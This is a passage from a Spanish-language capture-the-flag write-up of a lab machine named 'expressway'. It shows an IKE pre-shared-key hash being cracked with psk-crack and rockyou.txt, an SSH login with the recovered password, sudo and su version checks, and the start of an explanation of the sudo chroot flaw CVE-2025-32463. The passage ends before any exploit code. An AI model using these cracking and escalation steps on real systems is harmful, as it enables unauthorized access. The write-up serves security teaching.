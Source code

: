 Donde utilizando `rockyou.txt` obtendremos un hit.

```js
❯ psk-crack hash.txt -d /usr/share/wordlists/rockyou.txt 
Starting psk-crack [ike-scan 1.9.5] (http://www.nta-monitor.com/tools/ike-scan/)
Running in dictionary cracking mode
key "freakingrockstarontheroad" matches SHA1 hash 01805ae3f29bc14dad84cdcb42ea3e72e0e227b6
Ending psk-crack: 8045040 iterations in 6.211 seconds (1295384.11 iterations/sec)
```

### Acceso inicial SSH

Ahora, con usuario y contraseña, podemos acceder a `SSH`:

```js
❯ ssh ike@10.10.11.8702:57:42 [27/27]
ike@10.10.11.87's password:
<SNIP!>
ike@expressway:~$ ls
user.txt
```

Y hacemos lo de siempre, ver si podemos abusar de sudo:

```js
ike@expressway:~$ sudo -l
Password: 
Sorry, user ike may not run sudo on expressway.
```

Vemos que no, pobamos con la versión de `su`:

```js
ike@expressway:~$ su -V
su from util-linux 2.41.1
```

No parece que haya algún exploit, pobamos con la de `sudo`

```js
ike@expressway:~$ sudo -V
Sudo version 1.9.17
Sudoers policy plugin version 1.9.17
Sudoers file grammar version 50
Sudoers I/O plugin version 1.9.17
Sudoers audit plugin version 1.9.17
```

### Privilege Escalation con CVE-2025-32463

`1.9.17` Explotable; Me parece que ya he explotado esta vulnerabilidad en alguno de los posts, pero si no, igual lo refresco hahaha:

El `CVE-2025-32463` es una vulnerabilidad de `sudo` por la forma en que utiliza `chroot`: El comand `sudo`, normalmente lee la configuración y decide si el usuario tiene permiso para realizar una acción, en versiones vulnerables, hubo un cambio donde `sudo` maneja la opción `chroot`, en lugar de verificar los permisos primero, resolvía las rutas dentro del entorno `chroot` especificado por el usuario.
